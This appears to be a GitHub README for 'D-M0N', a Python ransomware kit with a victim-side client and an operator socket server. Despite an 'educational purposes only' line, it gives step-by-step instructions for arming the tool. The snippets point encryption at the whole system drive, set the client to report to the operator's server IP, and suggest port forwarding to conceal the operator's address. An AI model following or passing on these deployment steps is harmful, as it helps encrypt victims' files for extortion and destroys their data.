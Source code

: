 # D-M0N RANSOMWARE - EXPERIMENTAL PYTHON RANSOMWARE

**D-M0N is a compact testing Python ransomware for educational purposes only. Make sure you ONLY use it for vulnerabily testing or other needs.**

## Make it work properly
To use this ransomware, you must have:
  - a socket server running on any machine using ```server.py```
  - the malware on the 'victim's' PC which is the file ```client.py``` (or a **.exe** version so it can be ran without Python installed)

The current ransomware file is safe in case of an unintentional launching on your computer. It will only encrypt a test directory that I use to test it on my PC.

Please follow these steps to make it runnable and install it on a PC:

**1.** If you are sure, you can change ```server.py``` and ```client.py``` files so the program can run correctly and get all the files encrypted by:
  - ```client.py```: changing the ENCRYPTION_DIR constant to any functionnal directory like 'C:' or os.getenv("SystemDrive") to get main harddisk directory, example:
    ```python
    ENCRYPTION_DIR = os.getenv("SystemDrive")
    ```
- ```client.py```: changing the SERVER_ADDRESS constant (localhost on port 33800 by default) to YOUR server IP address (host, port), example:
  ```python
  SERVER_ADDRESS = ('228.35.112.75', 5555)
  ```
- ```server.py```: changing the SERVER_ADDRESS constant second value (port) to the same port you used on the client file, example:
  ```python
  SERVER_ADDRESS = ("0.0.0.0", 33800)
  ```

  **You can also use alternative port forwarding solutions like [portmap.io](https://portmap.io) instead of typing your real public IP address.**
